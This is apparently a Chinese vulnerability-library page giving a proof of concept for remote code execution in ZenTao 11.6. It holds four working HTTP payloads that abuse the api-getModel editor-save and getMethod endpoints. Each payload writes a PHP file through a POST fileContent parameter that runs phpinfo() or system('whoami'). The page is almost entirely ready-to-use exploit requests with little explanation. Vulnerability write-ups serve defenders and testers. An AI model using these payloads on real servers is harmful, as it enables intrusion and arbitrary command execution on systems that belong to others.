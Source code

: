 ```yaml
---
title: '禅道11.6RCE漏洞.assets'
date: Thu, 17 Sep 2020 01:55:17 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

禅道 11.6

### 漏洞POC

文件写入

### 漏洞范围

禅道 11.6

### 漏洞POC



#### 1）远程代码执行命令phpnifo()；

Payload 1:

```
http://127.0.0.1/zentaopms/www/api-getModel-editor-save-filePath=1111

POST: fileContent=<?php phpinfo(); ?>
```



![img](禅道11.6RCE漏洞.assets/20200909170608141.png)

Payload2:

```
http://127.0.0.1/zentaopms/www/ api-getModel-api-getMethod-filePath=1111/1

POST: fileContent=<?php phpinfo(); ?>
```



![img](禅道11.6RCE漏洞.assets/20200909170608208.png)

#### 2）远程代码执行命令system('whoami');

Payload 1:

http://127.0.0.1/zentaopms/www/api-getModel-editor-save-filePath=2222

POST: fileContent=<?php system('whoami'); ?>

![img](禅道11.6RCE漏洞.assets/20200909170608153.png)

Payload 2:

http://127.0.0.1/zentaopms/www/ api-getModel-api-getMethod-filePath=2222/2

POST: fileContent=<?php system('whoami'); ?>

![img](禅道11.6RCE漏洞.assets/20200909170608326.png)

 

